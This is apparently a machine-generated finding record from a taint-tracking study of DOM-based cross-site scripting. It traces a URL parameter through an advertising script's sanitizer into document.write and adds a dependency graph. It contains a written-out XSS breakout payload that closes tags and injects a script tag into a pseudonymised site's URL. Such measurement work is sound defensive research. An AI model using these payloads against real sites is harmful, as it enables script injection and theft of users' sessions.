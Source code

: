 // Finding: 0f8197d0-ed25-4818-94e1-c5444a4c1d6a
// Finding.url: https://example202.com/encyclopaedia/quizzes/all?uizzes%2Fall%3Flang%3Dus'></iframe></style></script></object></embed></textarea><script>taintfoxLog('6264701e8aef41a7bbbaa9df86ff4c2c')</script><!--/*
// Finding.parentloc: https://example202.com/encyclopaedia/quizzes/all?uizzes%2Fall%3Flang%3Dus'></iframe></style></script></object></embed></textarea><script>taintfoxLog('6264701e8aef41a7bbbaa9df86ff4c2c')</script><!--/*
// Finding.domain: example202.com
// Finding.base_domain: example202.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=101507&cbuster=2027832968&pubUrl=https://example202.com/encyclopaedia/quizzes/all%3Fuizzes%252Fall%253Flang%253Dus%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%276264701e8aef41a7bbbaa9df86ff4c2c%27)%3C/script%3E%3C!--/*&x=300&y=250&vp_content=plembed17d0nqwvtygs&vp_template=3769&subId=[SUBID_ENCODED]&schain=1.0,1!snigelweb.com,7100,1,,,example202.com - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 506
// Finding.end: 600
// Finding.original_uuid: 34dc6c91-7c42-4424-894a-25000d0cf944
// Finding.TwentyFiveMillionFlowsId: -1909609913
// Finding.script: https://live.example5.com/live/liveView.php?s=101507&cbuster=2027832968&pubUrl=https://example202.com/encyclopaedia/quizzes/all%3Fuizzes%252Fall%253Flang%253Dus%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%276264701e8aef41a7bbbaa9df86ff4c2c%27)%3C/script%3E%3C!--/*&x=300&y=250&vp_content=plembed17d0nqwvtygs&vp_template=3769&subId=[SUBID_ENCODED]&schain=1.0,1!snigelweb.com,7100,1,,,example202.com
// Finding.line: 914
// Exploit.uuid: 6264701e-8aef-41a7-bbba-a9df86ff4c2c
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: uizzes%2Fall%3Flang%3Dus'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: uizzes%2Fall%3Flang%3Dus'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 57
// Exploit.replace_begin_url: 50
// Exploit.replace_end_url: 57
// Exploit.replace_begin_param: 342
// Exploit.replace_end_param: 366
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -677570418
// DepGraph.sanitizer_hash: 849577461

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=101507&cbuster=20.....0,1!snigelweb.com,7100,1,,,example202.com&cbuster=1621050042"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 300"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 250"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit: &csuuid=609f42ba2922c"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: &videoType=normal"];
n23 [shape=box, label="Var: x"];
n24 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n15;
n19 -> n20;
n21 -> n19;
n21 -> n22;
n23 -> n21;
n24 -> n23;
}